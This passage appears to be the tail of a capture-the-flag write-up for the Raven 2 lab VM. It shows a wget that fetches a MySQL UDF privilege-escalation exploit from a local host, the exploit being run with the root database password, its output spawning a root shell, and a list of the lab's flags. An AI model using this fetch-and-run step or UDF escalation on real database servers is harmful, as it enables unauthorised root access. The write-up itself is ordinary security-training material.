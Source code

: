 ### Method 2: MySQL UDF Privilege Escalation

Downloaded and executed MySQL UDF exploit:

```shellscript
wget http://192.168.1.6/udf_root.py
python udf_root.py -u root -pR@v3nSecurity
```

**Exploit Process:**

```plaintext
Plugin dir is /usr/lib/mysql/plugin/
Trying to create a udf library...
UDF library created successfully: /usr/lib/mysql/plugin/udf4650.so
Trying to create sys_exec...
Checking if sys_exec was created...
sys_exec was found: name: sys_exec ret: 2 dl: udf4650.so type: function
Generating a suid binary in /tmp/sh...
Trying to spawn a root shell...
```

## Root Access Achieved

```shellscript
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

# cd /root
# cat flag4.txt
```

**Final Flag:**

```plaintext
  ___                   ___ ___  
 | _ \__ ___ _____ _ _ |_ _|_ _| 
 |   / _` \ V / -_) ' \ | | | |  
 |_|_\__,_|\_/\___|_||_|___|___|

flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting Raven
I hope you enjoyed this second iteration of the Raven VM
Hit me up on Twitter and let me know what you thought: @mccannwj / wjmccann.github.io
```

## Summary

**Flags Collected:**

1. `flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}` - Found in `/vendor/PATH`
2. `flag2{6a8ed560f0b5358ecf844108048eb337}` - Found in `/var/www/flag2.txt`
3. `flag3{a0f568aa9de277887f37730d9b}` - WordPress uploaded image
4. `flag4{df2bc5e951d91581467bb9a2a8ff4425}` - Root flag
